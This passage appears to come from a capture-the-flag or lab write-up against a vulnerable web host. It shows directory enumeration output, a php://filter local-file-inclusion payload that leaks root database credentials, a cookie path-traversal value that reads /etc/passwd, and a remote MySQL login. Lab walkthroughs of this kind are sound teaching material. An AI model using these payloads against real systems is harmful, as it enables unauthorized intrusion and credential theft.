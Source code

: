 ```bash
[20:23:11] 200 -    0B  - /config.php
[20:23:15] 200 -  943B  - /images/
[20:23:15] 301 -  317B  - /images  ->  http://192.168.34.151/images/
[20:23:16] 200 -  332B  - /index.php          
[20:23:16] 200 -  332B  - /index.php/login/
[20:23:17] 200 -  250B  - /login.php
[20:23:26] 301 -  317B  - /upload  ->  http://192.168.34.151/upload/
[20:23:26] 200 -   19B  - /upload.php 
[20:23:26] 200 -  743B  - /upload/
Task Completed
```
  
### 3. Exploit LFI
From here, try a bunch of LFI techniques on the page parameter until I have some success with php filtering. Using `page=php://filter/convert.iconv.utf-8.utf-16/resource=config`, I can get the contents of the php file returned:
```php
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```
The database creds were found: `root:H4u%QJ_H99`.  
Additionally the index page describes some language functionality that isn't implemented yet:
```php
<?php

//Multilingual. Not implemented yet.

//setcookie("lang","en.lang.php");

if (isset($_COOKIE['lang']))

{

  include("lang/".$_COOKIE['lang']);

}

// Not implemented yet.

?>
```
This is potentially another LFI vuln, which I can test out. This one is better because it allows me to access any file that Apache's user can. Supplying the cookie as `lang=../../../../../etc/passwd` gets me the passwd file.

### 4. Access the MySQL database
The MySQL database is accessable remotely, and from here I can view users and their passwords.
```bash
┌──(kali㉿kali)-[~]
└─$ mysql -u root -h 192.168.34.151 -p                                                                                                                                                                                                                                              9 ⨯
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 37
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

```